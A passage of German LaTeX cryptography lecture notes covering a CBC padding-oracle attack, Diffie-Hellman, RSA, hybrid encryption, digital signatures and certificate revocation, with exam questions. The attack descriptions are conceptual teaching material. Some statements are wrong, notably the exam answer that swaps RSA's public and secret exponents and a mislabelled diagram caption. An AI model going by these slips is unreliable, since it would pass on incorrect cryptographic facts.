	                    	\caption{CBC-Padding: Angriff}
	                    \end{figure}
                    
	                    \begin{itemize}
	                    	\item Eve rät dabei das letzte Byte \(b\) von \(m_2\) und setzt \( c_1^* = c_1 \oplus b \oplus \texttt{0x01} \) und \( c_2^* = c_2 \), wobei \(b\) links mit \(0\)en aufgefüllt wird.
	                    	\item Rät Eve das Byte korrekt, ergibt sich ein korrektes Padding und Eve findet nach und nach Informationen über die Nachricht heraus.
	                    	\item Nach maximal \( 2^8 = 256 \) hat Eve das korrekte Byte gefunden und kann den Angriff mit dem vorletzten Byte weiterführen:
		                    	\begin{itemize}
		                    		\item Rate vorletztes Byte \(b'\) von \(m_2\) und setze \(c_1^* = c_1 \oplus b' \oplus b \oplus \texttt{0x02} \vert \texttt{0x02} \) und \(c_2^* = c_2\).
		                    	\end{itemize}
		                    \item Für AES mit 16 Byte kann die gesamte Nachricht damit in \( 16 \cdot 2^8 = 4096 \) bestimmt werden.
	                    \end{itemize}
                    % end
                % end
            % end
        % end
        
        \subsection{Schlüsselaustausch}
            Da Sender und Empfänger einen gemeinsamen geheimen Schlüssel benötigen, muss ein sogenannter \textit{Schlüsselaustausch} stattfinden. Bei diesem ist es besonders wichtig, dass niemand mitlesen kann.
            
            \subsubsection{Diffie-Hellman}
	            \begin{itemize}
	            	\item Verfahren für den Schlüsselaustausch.
	            	\item Basiert auf dem Diskreten-Logarithmus-Problem: Es ist sehr schwierig, aus \( g ^ x \mod p \) den Wert x zu bestimmen, wobei \(g\) ein geeignetes Element Modulo einer Primzahl \(p\) ist.
	            	\item Das BSI empfiehlt Werte von \(p\) mit einer Mindestlänge von \(2000\) Bits, bei elliptischen Kurven mindestens \(250\) Bits.
	            \end{itemize}
            
	            \paragraph{Verfahren}
		            \begin{figure}[H]
		            	\centering
		            	\begin{tikzpicture}
                            \node [scale = 2.5, label = above:{Alice}, alice] (alice) {};
                            \node [scale = 2.5, right = 4 of alice, label = above:{Eve}, criminal, evil] (eve) {};
                            \node [scale = 2.5, right = 4 of eve, label = above:{Bob}, bob] (bob) {};
			            	
			            	\node [below = 0.5 of alice] (alice1) {Wähle zufälliges \(x\)};
			            	\node [below = 0 of alice1] (alice2) {\( X = g^x \mod p \)};
			            	\coordinate [below = 0.5 of alice2] (alice3);
			            	
			            	\node [below = 0.5 of bob] (bob1) {Wähle zufälliges \(y\)};
			            	\node [below = 0 of bob1] (bob2) {\( Y = g^y \mod p \)};
			            	\path let \p1 = (alice3), \p2 = (bob) in coordinate (bob3) at (\x2, \y1);
			            	\coordinate [below = 0.75 of bob3] (bob4);
			            	\node [below = 0.5 of bob4] (bob5) {Key: \( K = X ^ y = (g^x)^y = g^{xy} \mod p \)};
			            	
			            	\path let \p1 = (bob4), \p2 = (alice) in coordinate (alice4) at (\x2, \y1);
			            	\node [below = 0.5 of alice4] (alice5) {Key: \( K = Y ^ x = (g^y)^x = g^{yx} \mod p \)};
			            	
			            	\draw [->] (alice3) -- node[above]{\(X\)} (bob3);
			            	\draw [->] (bob4) -- node [above]{\(Y\)} (alice4);
		            	\end{tikzpicture}
		            	\caption{Diffie-Hellman-Schlüsselaustausch}
		            \end{figure}
		            Bei dem DH-Austausch haben die Variablen \( g, p, x, y, X, Y, K \) die folgenden Bedeutungen und Eigenschaften:
		            \begin{itemize}
		            	\item \( g \)    \tabto{1.5cm} Eine öffentliche Zahl.
		            	\item \( p \)    \tabto{1.5cm} Eine öffentliche Primzahl.
		            	\item \( x, y \) \tabto{1.5cm} Geheime und zufällige Zahlen von Alice/Bob.
		            	\item \( X, Y \) \tabto{1.5cm} Öffentliche Zahlen berechnet aus \( g, p \) und \( x \), bzw. \( y \).
		            	\item \( K \)    \tabto{1.5cm} Der Schlüssel.
		            \end{itemize}
	            
		            In der Praxis wird DH allerdings nicht so einfach wie hier genutzt, da z.B. noch das Problem der Authentisierung gelöst werden muss.
	            % end
            % end
        % end
    % end

    \section{Asymmetrische Verschlüsselungen}
        Bei asymmetrischen Verschlüsselungsverfahren haben Sender und Empfänger unterschiedliche Schlüssel, mit denen die Nachrichten ver-/entschlüsselt werden können. Dabei wird ein \textit{geheimer Schlüssel} zur Entschlüsselung und ein \textit{öffentlicher Schlüssel} zur Verschlüsselung verwendet. Dadurch ist eine vertrauliche Kommunikation \enquote{mit Fremden} möglich, da mit diesen kein Schlüsselaustausch für einen gemeinsamen geheimen Schlüssel durchgeführt werden muss.
        
        \begin{figure}[H]
        	\centering
        	\begin{tikzpicture}[align = center, nc/.style = { minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
        	\node [nc, draw, label = below:{Verschlüsselung}] (enc) {\(\Enc\)};
        	\node [right = 2 of enc] (c) {Ciphertext \\ \( C \)};
        	\node [nc, draw, right = 2 of c, label = below:{Entschlüsselung}] (dec) {\(\Dec\)};
        	
        	\node [left = of enc] (m1) {Nachricht \\ \(m\)};
        	\node [above = of enc] (k1) {öffentlicher \\ Schlüssel \\ \(k_p\)};
        	
        	\node [right = of dec] (m2) {Nachricht \\ \(m\)};
        	\node [above = of dec] (k2) {geheimer \\ Schlüssel \\ \(k_s\)};
        	
        	\draw [->] (enc) -- (c);
        	\draw [->] (c) -- (dec);
        	\draw [->] (m1) -- (enc);
        	\draw [->] (k1) -- (enc);
        	\draw [->] (dec) -- (m2);
        	\draw [->] (k2) -- (dec);
        	
        	\draw [bend left] (k1) to node[below]{Asymmetrie \\ (\(k_s, k_p\)) zusammen- \\ hängend, aber \\ verschieden} (k2);
        	\end{tikzpicture}
        	\caption{Prinzip der symmetrischen Verschlüsselung}
        \end{figure}
        Damit das System funktional Korrekt ist, muss für alle Nachrichten \(m\) und Schlüsselpaare \((k_s, k_p)\) und gelten: \[ \Dec(k_s, \Enc(k_p, m)) = m \]

        \subsection{Public Key vs. Schlüsselaustausch}
            \begin{description}
            	\item[Public Key] Ein Public-Key-Verfahren ist geeignet, wenn Sender und Empfänger nicht Interagieren (bspw. bei E-Mails).
            	\item[Schlüsselaustausch] Ein Schlüsselaustausch-Verfahren ist geeignet, wenn Sender und Empfänger sowieso Interagieren, z.B. bei einem Webseiten-Besuch.
            \end{description}
        % end

        \subsection{RSA}
            RSA (benannt nach den Erfindern Rivest, Shamir und Adleman) ist eines der verbreitetsten und bekanntesten asymmetrischen Verschlüsselungsverfahren.

			\paragraph{Verfahren}
				Bei RSA sind die Ver-/Entschlüsselungsfunktionen wie folgt definiert (\( e, d, N \in \mathbb{N} \)):
				\begin{align*}
					\Enc((N, e), m) &=\, m ^ e \mod N \\
					\Dec((N, d), C) &=\, C ^ d \mod N
				\end{align*}
				Dabei ist \(N\) das sogenannte \textit{RSA-Modul} uns es muss gelten:
				\begin{itemize}
					\item Es muss \( N = pq \) gelten mit zwei zufälligen Primzahlen \( p \), \( q \) wobei \( p \neq q \).
					\item \( e, d \) sind so zu wählen, dass \( (m ^ e) ^ d = m \mod N \) gilt. \\ Das heißt \enquote{\(d\) ist das multiplikative Inverse zu \( e \) (\( \textrm{mod } \varphi(N) \)) (mit \( \varphi(N) = (p - 1) \cdot (q - 1) \))}. Außerdem gilt \( 1 < e < \varphi(N) \).
					\item Dadurch können Nachrichten zwischen \( 0 \) und \( N - 1 \) verschlüsselt werden, wenn die Bits der Nachrichten als Zahl interpretiert werden. Aus Sicherheitsgründen werden die Nachrichten jedoch auf zu \(N\) teilerfremde Zahlen eingeschränkt, d.h. es muss \( \ggT(m, N) = 1 \) gelten.
				\end{itemize}
			
				In der Praxis wird RSA allerdings nicht so einfach wie hier genutzt, da die Nachricht noch vorverarbeitet werden muss, z.B. mit RSA-OAEP.
			% end
			
			\paragraph{Geheimnis}
				Bei dem RSA-Verfahren ist:
				\begin{description}
					\item[\(e\)] Der öffentliche Schlüssel.
					\item[\(d\)] Der geheime Schlüssel.
					\item[\(N\)] Der RSA-Moduls und öffentlich.
					\item[\(p\), \(q\)] Die Primzahlen, aus denen \(N\) berechnet wird. Diese sind ebenfalls geheim, bzw. müssen nur zur Berechnung des geheimen Schlüssels verfügbar sein.
				\end{description}
			% end

            \paragraph{Sicherheit}
                RSA ist sicher, da z.B. nicht einfach die \( e \)-te Wurzel aus \(C\) gezogen werden kann, da insbesondere die modulare Arithmetik für unvorhersehbare Ergebnisse sorgt. Da auch das Wurzelziehen in modularer Arithmetik mit einem Primzahlexponenten \(p^k\) i.d.R. einfach ist, wird \( N = pq \) mit zufälligen Primzahlen (\( p \neq q \)) verwendet.
            % end

            \paragraph{Wahl der RSA-Parameter}
                Da die Bedingung, dass das Wurzelziehen aus \( (N, e) \) schwierig ist impliziert, dass die Faktorisierung von \( N = pq \) schwierig ist, müssen \(p\) und \(q\) entsprechend groß gewählt werden. Das BSI empfiehlt hier\footnote{Siehe \HREF{https://www.bsi.bund.de/SharedDocs/Downloads/DE/BSI/Publikationen/TechnischeRichtlinien/TR02102/BSI-TR-02102.pdf}}, dass \(N\) mindestens \(2000\) Bits hat, außerdem werden weitere Anforderungen an \( p, q, e, d \) gestellt.
            % end
        % end
    % end

    \section{Hybride Verschlüsselung}
        Public-Key-Verfahren haben folgende Nachteile:
        \begin{itemize}
        	\item Es können nur kurze Nachrichten verschlüsselt werden.
        	\item Asymmetrische Verfahren sind deutlich langsamer als symmetrische Verfahren wie z.B. AES.
        \end{itemize}
        Mit hybrider Verschlüsselung können die Vorteile von beiden Typen kombiniert werden.
        
        Die Umsetzung geschieht wie folgt:
        \begin{enumerate}
        	\item Wahl eines kurzen Schlüssels \(k\) für die symmetrische Verschlüsselung.
        	\item Verschlüsselung von \(k\) mit einem asymmetrischen Verfahren (z.B. RSA).
        	\item Verschlüsselung der langen Nachricht \(m\) mit einem symmetrischen Verfahren mit dem Schlüssel \(k\).
        	\item Der Ciphertext ergibt sich dann aus dem verschlüsselten \(k\) und der verschlüsselten Nachricht:
	        	\begin{equation*}
		        	C = \big(\textrm{PubKeyEnc}(k_p, k),\, \textrm{SymEnc}(k, m)\big)
	        	\end{equation*}
        \end{enumerate}
        Zur Entschlüsselung muss zuerst der Schlüssel \(k\) entschlüsselt werden (asymmetrisch) und anschließend die lange Nachricht (symmetrisch).
        
        Dieses Verfahren wird so auch in der Praxis verwendet.
    % end

    \section{Pseudozufallsgeneratoren}
        \textit{Pseudozufallsgeneratoren} (Pseudo Random Number Generator, PRG) sind in allen Systemen anzutreffen, können allerdings keinen \enquote{echte} Zufall erstellen.
        
        Hierfür wird Entropie (z.B. durch Tastatureingaben oder Mausbewegungen) verwendet, um pseudo-zufällige Zahlen zu generieren. Wurden Zufallsbits ausgegeben, wird der Zustand des PRG aktualisiert, sodass bei der nächsten Anfrage andere Zufallsbits ausgegeben werden.
        
        \begin{figure}[H]
        	\centering
        	\begin{tikzpicture}[align = center]
            	\node [draw, minimum height = 2cm, minimum width = 2cm, rounded corners] (prg) {PRG};
            	\node [left = 1 of prg] (a) {Entropie \\ sammeln};
            	\node [right = 2 of prg] (b) {Ausgabe von \\ Pseudozufallsbits};
            	\coordinate [right = 0.9 of prg] (c);
            	\coordinate [above = 2 of c, label = above:{Zustand \\ aktualisieren}] (d);
            	\coordinate [left = 1 of prg] (e);
            	\coordinate [above = 2 of e, label = above:{Entropie \\ anfordern}] (f);
            	\coordinate [left = 0.5 of prg.north] (g);
            	\coordinate [right = 0.5 of prg.north] (h);
            	
            	\draw [->] (a) -- (prg);
            	\draw [->] (prg) -- (b);
            	\draw (c) -- (d);
            	\draw [->] (d) -| (h);
            	\draw (g) |- (f);
            	\draw [->] (f) -| (a);
        	\end{tikzpicture}
        	\caption{Pseudozufallsgeneratoren}
        \end{figure}

        \subsection{RSA-Schlüsselerzeugung}
            Für die RSA-Schlüsselerzeugung werden nun Pseudozufallszahlen generiert und diese als \( p, q, e, d \) verwendet (sofern diese zusammen passen, also bspw. \(p\) und \(q\) Primzahlen sind).
            
            \paragraph{Angriffe}
                Werden \(p\) und \(q\) zu schwach gewählt (d.h. zu wenige Bits an Entropie), so können für ein öffentliches Paar \( (N, e) \) einfach alle Werte für \( p, q, e \) durchprobiert werden bis der korrekte Schlüssel gefunden wurde.
            % end
        % end
    % end

    \section{Fragen}
        \paragraph{Erklären Sie den Unterschied zwischen mono-alphabetischer und poly-alphabetischer Substitution. Was ist das One-Time-Pad-Verfahren für ein Typ?}
        Bei eine mono-alphabetischen Substitution werden gleiche Zeichen durch gleiche Zeichen ersetzt (also bspw. immer \( A \rightarrow C \)). Bei einer poly-alphabetischen Substitution können gleiche Zeichen durch unterschiedliche Zeichen ersetzt werden (also bspw. ab und zu \( A \rightarrow C \) aber auch \( A \rightarrow F \)). Das One-Time-Pad-Verfahren ist ein Verfahren mit poly-alphabetischer Substitution.

        \paragraph{Entwerfen Sie ein absolut sicheres Verschlüsselungssystem, das aber keine Korrektheit garantieren muss.}
        Da keine Korrektheit garantiert werden muss, kann der Ciphertext auf eine zufällige Zeichenfolge gesetzt werden.

        \paragraph{C. Lever möchte Shannons Verfahren noch sicherer machen. Er nimmt dazu zwei Schlüssel \(k_0\) und \(k_1\) und bildet \(\Enc((k_0, k_1), m) = k_0 \oplus k_1 \oplus m\). Was halten Sie davon?}
        Dies bringt keine höhere Sicherheit, es geht aber auch keine Sicherheit verloren, solange nicht \( k_0 = k_1 \) gilt. Gilt dies, so gilt auch \( \Enc((k_0, k_1), m) = m \), was keine hohe Sicherheit hervorruft.

        \paragraph{Nennen Sie drei technische Unterschiede zwischen DES und AES.}
        \begin{enumerate}
        	\item AES kann pro Block \(128\) Bits verschlüsseln, DES nur \(64\) Bits.
        	\item Bei DES können maximal \(56\) Bit lange Schlüssel verwendet werden, bei AES \(128\), \(192\) oder \(256\) Bit lange Schlüssel.
        	\item DES ist aufgrund der Schlüssellänge unsicherer und sollte nur noch als \(\textrm{3DES}\) verwendet werden. AES ist mit einer Schlüssellänge \( \geq 192 \) in den USA für Dokumente der höchsten Geheimhaltungsstufe freigegeben.
        \end{enumerate}
        
        \paragraph{Bestimmen Sie die Umkehrfunktion zu Triple-DES: \(\textrm{3DES}(k_1 \vert k_2 \vert k_3, m) = \textrm{DES}(k_3, \,\textrm{DES}^{-1}(k_2, \,\textrm{DES}(k_1, m)))\)}
        \begin{equation*}
	        \textrm{3DES}^{-1} = \textrm{DES}^{-1}(k_1, \,\textrm{DES}(k_2, \,\textrm{DES}^{-1}(k_3, c)))
        \end{equation*}
        
        \paragraph{Warum müssen Sie bei AES-CBC-Verschlüsselung mit Padding auch noch 16 Mal \texttt{0x10} anhängen, selbst wenn der letzte Nachrichtenblock schon auf Blocklänge ist?}
        Dies muss getan werden, damit das Padding nach dem Entschlüsseln korrekt entfernt werden kann.
        
        \paragraph{Beschreiben Sie kurz das RSA-Verschlüsselungssystem.}
        Bei dem RSA-Verschlüsselungsverfahren wird einem RSA-Modul \(N\) und dem geheimen Schlüssel \(k_s = (N, d)\) und dem öffentlichen Schlüssel \(k_p = (N, e)\) ein Ciphertext \( c \coloneqq m^d \mod N \) berechnet, der anschließend mit \( m = c^e \mod N \) entschlüsselt werden kann.
        
        \paragraph{Kann man aus jedem Public-Key-Verschlüsselungssystem ein Schlüsselaustauschverfahren konstruieren? Und umgekehrt?}
        Es ist möglich, aus jedem Public-Key-Verschlüsselungssystem ein Schlüsselaustauschverfahren zu konstruieren, indem der Schlüssel verschlüsselt übertragen wird. Umgekehrt ist dies nicht möglich, da sich z.B. bei Diffie-Helman der Schlüssel aus den Informationen beider Parteien berechnet, was für eine verschlüsselte Übertragung von einer zur anderen Person nicht sinnvoll ist.
        
        \paragraph{Überlegen Sie sich, dass der Angreifer beim DH-Schlüsselaustausch den Wert \(g^{x + y}\) berechnen kann.}
        Der Angreifer kann \( X \cdot Y = g ^ x \cdot g ^ y = g ^ {x+y} \mod p \) berechnen.
    % end
% end

\chapter{Digitale Signaturen}
    Digitale Signaturen sorgen für Integrität, sorgen im Allgemeinen aber nicht für Vertraulichkeit oder Verfügbarkeit!
    
    Bei digitalen Signaturen geht es darum, die Integrität der Daten zu sichern. Das bedeutet:
    \begin{enumerate}
    	\item Prüfen, ob eine Nachricht von dem erwarteten Sender stammt (Integrität des Ursprungs).
    	\item Prüfen, ob eine Nachricht auf dem Weg verändert wurde (Integrität der Daten).
    \end{enumerate}

    Bei dem Prinzip digitaler Signaturen wird eine Nachricht \(m\) mit einem geheimen Schlüssel des Absenders signiert und kann mit dem öffentlichen Schlüssel des Absenders verifiziert werden:
    \begin{figure}[H]
    	\centering
    	\begin{tikzpicture}[align = center, nc/.style = { minimum width = 1.5cm, minimum height = 1.5cm, rounded corners }]
	    	\node [nc, draw, label = below:{Signatur- \\ verfahren}] (enc) {\(\Sig\)};
	    	\node [right = 2 of enc] (c) {Signatur \( s \)};
	    	\node [nc, draw, right = 2 of c, label = below:{Verifikations- \\ verfahren}] (dec) {\(\Vf\)};
	    	
	    	\node [left = of enc] (m1) {Nachricht \(m\)};
	    	\node [above = of enc] (k1) {geheimer \\ Schlüssel \\ \(k_s\)};
	    	
	    	\node [right = of dec] (m2) {\(\mathfrak{t} \,/\, \mathfrak{f}\)};
	    	\node [above = of dec] (k2) {öffentlicher \\ Schlüssel \\ \(k_p\)};
	    	
	    	\coordinate [below = 0.5 of dec.west] (needle);
	    	\node [left = 2 of needle] (m) {Nachricht \(m\)};
	    	
	    	\draw [->] (m) -- (needle);
	    	
	    	\draw [->] (enc) -- (c);
	    	\draw [->] (c) -- (dec);
	    	\draw [->] (m1) -- (enc);
	    	\draw [->] (k1) -- (enc);
	    	\draw [->] (dec) -- (m2);
	    	\draw [->] (k2) -- (dec);
	    	
	    	\draw [bend left] (k1) to node[below]{Asymmetrie \\ (\(k_s, k_p\)) zusammen- \\ hängend, aber \\ verschieden} (k2);
    	\end{tikzpicture}
    	\caption{Prinzip von digitalen Signaturen}
    \end{figure}
    Für die funktionale Korrektheit muss für alle Nachrichten \(m\) und alle Schlüsselpaare \((k_s, k_p)\) gelten:
    \begin{equation*}
	    \Vf(k_p,\, m,\, \Sig(k_s, m)) = \mathfrak{t}
    \end{equation*}

    \section{Sicherheit}
        \begin{itemize}
        	\item Der Angreifer darf keine Signatur fälschen können, auch wenn er die initiale Nachricht kennt.
        	\item Dazu muss die Signatur stark von der Nachricht abhängen, da sonst einfach die selbe Signatur für unterschiedliche Nachrichten verwendet werden könnte.
        	\item Im schlimmsten Falle wird die Nachricht vollständig an die Signatur angehängt.
        	\item Hierdurch ist vor allem keine Vertraulichkeit mehr gewährleistet!
        \end{itemize}
    % end

    \section{Moderne Signaturverfahren}
        Moderne Signaturverfahren sind zum Beispiel:
        \begin{itemize}
        	\item RSA-basierte Signaturen
        	\item Digital Signature Algorithm (DSA) (Diskreter-Logarithmus-basiert)
        \end{itemize}
        Beide dieser Verfahren nutzen das sogenannte \enquote{Hash-and-Sign}-Prinzip.

        \subsection{Hash-and-Sign}
            \begin{itemize}
            	\item Von einer Nachricht \(m\) wird zuerst ein Hashwert gebildet.
            	\item Für diesen wird anschließend eine Signatur berechnet und für die gesamte Nachricht verwendet.
            \end{itemize}
            \begin{figure}[H]
            	\centering
            	\begin{tikzpicture}[align = center, main/.style = { draw, rectangle, minimum height = 3cm }]
	            	\node (m) {Nachricht \\ \(m\)};
	            	\node [main, right = 2 of m] (hash) {\rotatebox{270}{Hashfunktion \(H\)}};
	            	\node [main, right = 1 of hash] (hashwert) {\rotatebox{270}{Hashwert \(H(m)\)}};
	            	\node [main, right = 1 of hashwert] (sig) {Kern-Signatur- \\ verfahren \\ \(\Sig^*\)};
	            	\node [right = 2 of sig] (s) {Signatur \\ \(s\)};
	            	
	            	\node [above = 2 of sig] (k) {Schlüssel \\ \(k_s\)};
	            	
	            	\coordinate [above left = of hash] (a);
	            	\coordinate [below right = of sig] (b);
	            	
	            	\draw (a) -| (b);
	            	\draw (b) -| coordinate(A) (a);
	            	
	            	\path (A) -- node[above]{\( \Sig(k_s, m) = \Sig^*(k_s,\, H(m)) \)} (b);
	            	
	            	\draw [->] (k) -- (sig);
	            	\draw [->] (m) -- (hash);
	            	\draw [->] (hash) -- (hashwert);
	            	\draw [->] (hashwert) -- (sig);
	            	\draw [->] (sig) -- (s);
            	\end{tikzpicture}
            	\caption{Hash-and-Sign}
            \end{figure}
        % end

        \subsection{RSA-Signaturen}
            \paragraph{Signierung}
                \begin{enumerate}
                	\item[] Nachricht \(m\), geheimer Schlüssel \((N, d)\).
                	\item Hashen der Nachricht mit \(H(m)\).
                	\item Kodieren des kurzen Hashwertes auf RSA-Länge \(\text{Encode}(H(m))\).
                	\item Anwendung des RSA-Schlüssels.
                \end{enumerate}
                \begin{equation*}
	                s = (\text{Encode}(H(m))) ^ d \mod N
                \end{equation*}
            % end
            
            \paragraph{Verifizierung}
                \begin{enumerate}
                	\item[] Nachricht \(m\), Signatur \(s\), öffentlicher Schlüssel \((N, e)\).
                	\item Hashen der Nachricht mit \(H(m)\).
                	\item Kodieren des kurzen Hashwertes auf RSA-Länge \(\text{Encode}(H(m))\).
                	\item Signatur \( s^e \mod N \) mit \(\text{Encode}(H(m))\) vergleichen.
                	\item Bei Gleichheit \(\implies\) Signatur korrekt. \\
                	      Bei Ungleichheit \(\implies\) Signatur nicht korrekt.
                \end{enumerate}
                \begin{equation*}
	                \text{Encode}(H(m)) \overset{?}{=} s ^ e \mod N
                \end{equation*}
            % end
            
            \paragraph{Korrektheit}
                Das Verfahren ist korrekt, da mit \( s = (\text{Encode}(H(m))) ^ d \mod N \) gilt:
                \begin{equation*}
	                s^e = ((\text{Encode}(H(m))) ^ d) ^ e = \text{Encode}(H(m)) \mod N
                \end{equation*}
            % end
        % end

        \subsection{DSA-Signaturen}
            \begin{itemize}
            	\item Im Jahre 1991 von der NIST entwickelt und 1994 als Digital Standard Signature (DSS) standardisiert.
            \end{itemize}
        
            \paragraph{Signierung}
                \begin{enumerate}
                	\item[] Nachricht \(m\), geheimer Schlüssel \( k_s = (g, x, p, q) \) mit folgenden Eigenschaften:
	                	\begin{itemize}
		                	\item \( p, q \) Prim
	                		\item \( g \in \{ 1, 2, \cdots, p - 1 \} \) mit \( g, g^2, g^3, \cdots, g^{q - 1} \neq 1 \) und \( g^q = 1 \)
	                	\end{itemize}
                	\item Wahl eines zufälligen \( k = \{ 1, 2, \cdots, q - 1 \} \)
                	\item Berechnung von \( r = (g^k \textbf{ mod } p) \mod q \)
                	\item Berechnung von \( s = k^{-1} \cdot (H(m) + xr) \mod q \) \\ Hierbei ist \(k^{-1}\) das Inverse zu \(k \mod q\), d.h. \( k \cdot k^{-1} = 1 \mod q \)
                	\item Ergebnis: Signatur \( S = (r, s) \)
                \end{enumerate}
			% end
			
			\paragraph{Verifizierung}
				\begin{enumerate}
					\item[] Nachricht \(m\), öffentlicher Schlüssel \(k_p = (y, p, q, g)\) mit \( y = g^x \mod p \)
					\item Berechnung von \( v = H(m) \cdot s^{-1} \mod q \)
					\item Berechnung von \( w = r \cdot s^{-1} \mod q \)
					\item Prüfen, ob gilt: \( (g^v \cdot y^w \textbf{ mod } p) = r \mod q \)
					\item Bei Gleichheit \(\implies\) Signatur korrekt. \\
					      Bei Ungleichheit \(\implies\) Signatur nicht korrekt.
				\end{enumerate}
			% end
			
			\paragraph{Korrektheit}
				Mit \( r = (g ^ k \textbf{ mod } p) \mod q \) und \( s = k^{-1} \cdot (H(m) + xr) \mod q \) gilt:
				\begin{equation*}
					g^v \cdot y^w = g^{H(m) \cdot s^{-1}} \cdot y ^ { r \cdot s^{-1} } = g ^ { s^{-1} \cdot (H(m) + xr)} = g^k \mod p
				\end{equation*}
				Und damit auch Gleichheit unter \( \mod q \).
			% end
        % end
    % end

    \section{Zertifikate}
        \begin{itemize}
        	\item Bisher ist nicht bekannt, ob eine Signatur wirklich von der Partei erstellt wurde, die angegeben wird.
        	\item Eine Signatur könnte von jedem erstellt werden, der einen solchen geheimen Schlüssel besitzt.
        	\item Also muss die Identität, bzw. ein Hashwert des Schlüssels (\enquote{Fingerprint}), bestätigt werden. Hierzu gibt es mehrere Methoden:
            	\begin{enumerate}
            		\item Direkte Bestätigung \\ per Telefon, Gespräch, o.ä.
            		\item Web of Trust \\ Ein Schlüssel wird von anderen Schlüsselbesitzern bestätigt, wodurch sich ein \enquote{Vertrauensnetz} bildet.
            		\item Zertifikate \\ Eine Zertifizierungsinstanz (Certificate Authority, CA) bestätigt die Echtheit von Schlüsseln und die Zugehörigkeit zu der ausgewiesenen Person
            	\end{enumerate}
        \end{itemize}

        \subsection{Zertifikatsinhalt}
		    In einem Zertifikat stehen üblicherweise die folgenden Daten:
		    \begin{itemize}
		    	\item \textbf{Inhaber} \tabto{3.5cm} Üblicherweise ein \textit{Common Name} (CN), eine Organisation (O), Land (C), etc.
		    	\item \textbf{Aussteller} \tabto{3.5cm} Wie Inhaber
		    	\item \textbf{Seriennummer}
		    	\item \textbf{Gültigkeitsdauer}
		    	\item u.v.m.
		    \end{itemize}
        % end

        \subsection{Schlüssel- und Zertifikatsverteilung}
            Die Schlüssel und Zertifikate werden auf Zentralen Servern (LDAP, globale Key-Server, \dots) gespeichert.
        % end

        \subsection{Zertifikatsprüfung}
            Zur Verifizierung von Zertifikaten unterschreibt die Certificate Authority (CA) den Inhalt eines Zertifikats mit einer digitalen Signatur.
            
            Um zu verifizieren, dass die signierende CA auch eine korrekte CA ist, wird das entsprechende Zertifikat abgefragt und geprüft. Auch das Zertifikat der CA ist unterschrieben, sodass sich eine Kette an Zertifikaten bildet.
        % end

        \subsection{Certificate Authority (CA)}
            Durch die verkettete Zertifizierung ergibt sich eine Endlosrekursion, die aufgebrochen werden muss:
            \begin{figure}[H]
            	\centering
            	
\begin{tikzpicture}[align = center]
                	\node (c) at (0, 0) {erfordert Prüfung \\ der Unterschrift};
                	\node (b) at (2, 3.5) {Prüfung der \\ Unterschrift};
                	\node (a) at (-2, 3.5) {erfordert Prüfung \\ des Zertifikates};
                	
                	\draw [->] (a) -- (b);
                	\draw [->] (b) -- (c);
                	\draw [->] (c) -- (a);
            	\end{tikzpicture}
            	\caption{Zertifikate: Endlosrekursion}
            \end{figure}
            Diese Endlosrekursion wird aufgebrochen, indem \textit{Root-CA}s eingeführt werden, die als vertrauenswürdig behandelt werden. Die Zertifikate solcher Root-CAs sind fest in Betriebssystemen und Browsern hinterlegt, sodass die Korrektheit überprüft werden kann:
            \begin{figure}[H]
            	\centering
            	\begin{tikzpicture}
	            	\node (root) {Root-CA};
	            	\node [below = of root] (intermediate) {Übergeordnete CA};
	            	\node [below = of intermediate] (ca) {CA};
	            	\node [below = of ca] (cert) {Schlüsselinhaber};
	            	
	            	\draw [->, label = west:{zertifiziert}] (root) -- (intermediate);
	            	\draw [->, label = west:{zertifiziert}] (intermediate) -- (ca);
	            	\draw [->, label = west:{zertifiziert}] (ca) -- (cert);
            	\end{tikzpicture}
            	\caption{Root-CAs}
            \end{figure}
            Dadurch bildet sich eine endliche Zertifikatskette, die überprüft werden kann.
        % end

        \subsection{Revozierung von Zertifikaten}
            Über \textit{Certificate Revocation Lists} (CRLs) oder Online Certificate Status Protocol (OCSP) kann sowohl abgefragt als auch hinterlegt werden, ob bestimmte Zertifikate abgelaufen (\textit{revoziert}) sind. Dadurch können Zertifikate zurückgerufen werden, bspw. wenn der geheime Schlüssel abhanden kommt oder gestohlen wird. In der Praxis werden meisten OCSPs genutzt, die selbst wieder mit CRLs arbeiten.
            
            \begin{itemize}
            	\item Da CRLs meistens sehr viele Einträge enthalten sind diese oft sehr groß, weshalb sie nicht zur schnellen Zertifikatsvalidierung geeignet sind.
            	\item Damit müsste eine solche Liste heruntergeladen werden und kann nur ab und an aktualisiert werden, bei OCSP kann eine Revozierung sekundengenau geschehen.
            	\item Zusätzlich ermöglicht OCSP es, gültige von gefälschten Zertifikaten zu unterscheiden, indem der OCSP-Server nur dann \enquote{Good} liefert, wenn das Zertifikat gültig ist.
            	\item Ein Nachteil an OCSP ist, dass der Client zuerst die gesamte Zertifikatskette aufbauen muss.
            	\item Außerdem ist Problematisch, dass viele Clients Zertifikate auch dann als gültig betrachten, wenn der OCSP-Server \enquote{Try Later} liefert. Da die Fehlerantworten nicht signiert sind, kann ein Angreifer ein Zertifikat fälschen, indem er als MitM \enquote{Try Later} zurück liefert.
            \end{itemize}
        % end
    % end

    \section{Elektronische Signaturen}
        \begin{itemize}
        	\item Abgrenzung: \textit{Elektronische Signaturen} sind juristisch, digitale Signaturen sind mathematisch.
        	\item Es existieren mehrere unterschiedliche Arten von elektronischen Signaturen (siehe Signaturgesetz):
	        	\begin{itemize}
	        		\item \textbf{(Einfache) Elektronische Signatur}
		        		\begin{itemize}
		        			\item Mit den Daten verknüpft
		        			\item Dient der Authentisierung.
		        		\end{itemize}
	        		\item \textbf{Fortgeschrittene Signatur}
		        		\begin{itemize}
		        			\item Wird dem Unterzeichner zugeordnet.
		        			\item Der Unterzeichen hat als einziger die Mittel zur Erstellung der Unterzeichnung.
		        			\item Die Signatur ist sicher mit den unterzeichneten Daten verknüpft.
		        		\end{itemize}
	        		\item \textbf{Qualifizierte Signatur}
		        		\begin{itemize}
		        			\item Wie die fortgeschrittene Signatur.
